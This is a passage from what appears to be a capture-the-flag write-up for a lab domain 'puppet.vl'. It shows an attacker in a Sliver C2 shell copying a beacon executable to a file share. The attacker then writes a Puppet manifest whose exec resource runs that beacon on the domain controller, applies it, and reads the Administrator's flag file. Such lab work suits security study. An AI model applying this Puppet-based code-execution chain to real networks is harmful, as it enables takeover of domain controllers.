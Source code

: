 ```Bash
+ "dc01.puppet.vl"   (SHA256) E4:C3:42:71:83:88:08:07:6A:C5:A1:9D:FA:C2:7E:BB:D5:65:5F:71:9F:D3:BE:11:96:B7:26:CD:4F:5C:68:C6
+ "file01.puppet.vl" (SHA256) 61:ED:86:C3:55:35:36:89:D5:FC:3A:32:05:D1:23:EC:C3:F1:58:E4:D7:9A:6B:3E:65:F4:F2:F2:77:34:B0:CA
+ "pm01"             (SHA256) 94:8C:76:E9:D1:43:CA:FF:6C:06:34:80:23:02:8C:49:20:00:B2:43:62:42:16:7B:AF:4F:A6:68:F3:C2:D8:06 (alt names: "DNS:pm01", "DNS:puppet")
+ "pm01.localdomain" (SHA256) 2D:DC:44:F8:49:B6:41:B3:9A:2A:AE:B3:D2:9F:C7:6F:1F:0A:62:00:19:EB:B8:93:D6:C6:65:28:60:D9:F1:B8 (alt names: "DNS:pm01.localdomain", "DNS:puppet")
+ "puppet.puppet.vl" (SHA256) 11:65:85:DB:9F:E4:19:03:04:21:92:4B:19:03:17:6D:29:A9:E9:56:0F:04:A6:16:2B:44:46:A3:33:20:92:9C (alt names: "DNS:puppet", "DNS:puppet.puppet.vl")
```

Now we can execute command in domain controller. First we have to copy our beacon payload then make run our puppet payload.
```bash
#Copy Beacon payload to accessible share folder
sliver (puppet-mtls) > shell
? This action is bad OPSEC, are you an adult? Yes
Copy-Item -Path 'C:\ProgramData\puppet\puppet-update.exe' -Destination '\\file01.puppet.vl\files\puppet-update.exe'

#Create Payload
bash-5.1# mkdir -p /etc/puppet/code/environments/production/manifests
bash-5.1# nano /etc/puppet/code/environments/production/manifests/site.pp

#Payload
node 'dc01.puppet.vl' {
  exec { 'pwned':
    command   => 'C:\\Windows\\System32\\cmd.exe /c \\\\file01.puppet.vl\\files\\puppet-update.exe',
    logoutput => true,
  }
}
node default {
  notify { 'This is the default node': }
}

#Run the payload
bash-5.1# sudo puppet apply /etc/puppet/code/environments/production/manifests/site.pp 
```

## Recovering the Final Flag
The final flag was located in the Desktop of Administrator on DC01. The content noted that the flag was the password for the root@puppet.vl user.
```Bash
sliver (puppet-mtls) > ls

C:\Users\administrator\Desktop (3 items, 7.7 KiB)
=================================================
-rw-rw-rw-  desktop.ini         282 B    Wed Sep 25 22:24:15 -0700 2024
-rw-rw-rw-  Microsoft Edge.lnk  2.3 KiB  Fri Oct 11 05:51:57 -0700 2024
-rw-rw-rw-  root.txt            5.2 KiB  Sat Oct 12 01:46:14 -0700 2024


sliver (puppet-mtls) > cat root.txt

⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣤⣴⣶⠶⠶⠶⣦⣤⣤⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣤⡶⢻⡿⠋⣁⣤⣶⣾⣿⣿⣶⣿⣽⣿⣶⣄⡀⠀⠀⠀⡰⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⣛⠛⠃⠊⢀⣼⣿⣿⣿⣿⣿⣿⣿⠿⠿⣿⣿⣿⡿⣆⠀⠐⠁⢀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣾⢷⣶⣤⡀⠀⢸⣿⣿⣿⣿⣿⣿⣿⣿⣟⣛⡶⠾⡿⢛⣟⣃⠅⠀⠂⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢰⣿⣳⣿⣿⣿⣿⣦⠿⠛⠉⠋⠉⠁⠀⠉⠙⠛⠛⣿⣿⣷⣦⣣⠐⠢⠑⠈⠄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣿⢧⣿⣿⣯⡷⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠙⢿⣿⣿⡵⣤⡄⠈⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣸⡟⣾⣿⣿⡟⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⣿⣿⣧⣿⣧⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
```